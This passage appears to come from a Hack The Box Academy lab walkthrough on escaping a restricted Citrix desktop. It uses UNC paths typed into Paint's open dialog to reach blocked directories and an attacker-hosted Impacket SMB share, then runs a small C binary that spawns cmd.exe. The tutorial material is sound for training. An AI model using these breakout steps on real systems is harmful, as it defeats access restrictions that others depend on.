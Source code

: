 Run `Paint` from start menu and click on `File > Open` to open the Dialog Box.

![Image](https://academy.hackthebox.com/storage/modules/67/paint.png)

With the windows dialog box open for paint, we can enter the [UNC](https://learn.microsoft.com/en-us/dotnet/standard/io/file-path-formats#unc-paths) path `\\127.0.0.1\c$\users\pmorgan` under the File name field, with File-Type set to `All Files` and upon hitting enter we gain access to the desired directory.

![Image](https://academy.hackthebox.com/storage/modules/67/paint_flag.png)

---
## Accessing SMB share from restricted environment

Having restrictions set, File Explorer does not allow direct access to SMB shares on the attacker machine, or the Ubuntu server hosting the Citrix environment. However, by utilizing the UNC path within the Windows dialog box, it's possible to circumvent this limitation. This approach can be employed to facilitate file transfers from a different computer.

Start a SMB server from the Ubuntu machine using Impacket's `smbserver.py` script.

```shell
root@ubuntu:/home/htb-student/Tools# smbserver.py -smb2support share $(pwd)

Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation
[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

Back in the Citrix environment, initiate the "Paint" application via the start menu. Proceed to navigate to the "File" menu and select "Open", thereby prompting the Dialog Box to appear. Within this Windows dialog box associated with Paint, input the UNC path as `\\10.13.38.95\share` into the designated "File name" field. Ensure that the File-Type parameter is configured to "All Files." Upon pressing the "Enter" key, entry into the share is achieved.

![Image](https://academy.hackthebox.com/storage/modules/67/paint_share.png)

Due to the presence of restrictions within the File Explorer, direct file copying is not viable. Nevertheless, an alternative approach involves `right-clicking` on the executables and subsequently launching them. Right-click on the `pwn.exe` binary and select `Open`, which should prompt us to run it and a cmd console will be opened.

![Image](https://academy.hackthebox.com/storage/modules/67/pwn_cmd.png)

The executable `pwn.exe` is a custom compiled binary from `pwn.c` file which upon execution opens up the cmd.

Code: c

```c
#include <stdlib.h>
int main() {
  system("C:\\Windows\\System32\\cmd.exe");
}
```
